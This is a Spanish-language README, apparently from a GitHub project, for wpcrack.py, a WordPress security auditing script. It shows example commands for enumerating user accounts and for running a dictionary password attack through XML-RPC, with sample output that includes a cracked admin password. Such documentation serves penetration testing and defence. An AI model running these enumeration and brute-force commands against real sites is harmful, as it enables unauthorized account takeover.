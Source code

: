 wordpress-security
==================

<h3>wpcrack.py</h3>

<p>
Script para auditar la seguridad de un wordpress. Funcionalidades actuales:
<ul>
<li>Enumeración de usuarios tanto por GET como por POST.</li>
<li>Ataque de diccionario utilizando el servicio XML-RPC.</li>
</ul>
</p>
<p>
Ejemplo de enumeración de usuarios con id menor o igual a 10 utilizando peticiones POST:
<pre>$ python wpcrack.py --quiet --url http://target/ enumerate -m POST
[+] User found (uid: 4): theboss
[+] User found (uid: 3): user2
[+] User found (uid: 2): user1
[+] User found (uid: 1): admin</pre>
</p>
Ejemplo de ataque de diccionario a la cuenta de admin mostrando también las peticiones erróneas:
<pre>$ python wpcrack.py --url http://target/ bruteforce -u admin -w dict.txt
[-] The password '1234admin' doesn't match
[-] The password '1234password' doesn't match
[-] The password 'password' doesn't match
[-] The password 'pass1234' doesn't match
[-] The password 'adminstrator' doesn't match
[-] The password '123456' doesn't match
[-] The password '1234' doesn't match

[+] Username: admin
[+] Password: admin
[+] Profile : administrator</pre>
<p>
</p>
<p>Agradecimientos por sus sugerencias a J. M. Fernández, @TheXC3LL</p>

